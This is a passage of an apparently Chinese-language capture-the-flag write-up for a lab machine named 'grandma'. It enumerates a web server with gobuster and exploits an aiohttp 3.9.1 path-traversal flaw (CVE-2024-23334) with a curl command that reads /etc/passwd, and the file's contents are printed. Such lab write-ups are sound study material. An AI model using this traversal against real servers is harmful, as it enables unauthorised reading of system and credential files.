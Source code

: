 将**grandma.dl**添加到**/etc/hosts**

注意到在**5000**端口上有一个**aiohttp/3.9.1**的服务，可以进行目录穿越读取任意文件，在之前的文章中也涉及到过：[HTB-Chemistry - HYH](https://www.hyhforever.top/htb-chemistry/)

## CVE-2024-23334

扫描目录可以看到存在一个**static**目录

```
[root@kali] /home/kali/grandma  
❯ gobuster dir -u "http://10.10.10.2:5000/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.2:5000/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/static               (Status: 403) [Size: 14]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
==============================================================
```

尝试读取**/etc/passwd**成功

```
[root@kali] /home/kali/grandma  
❯ curl -s --path-as-is "http://10.10.10.2:5000/static/../../../../../etc/passwd" 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
drzunder:x:1001:1001:,,,:/home/drzunder:/bin/bash
```
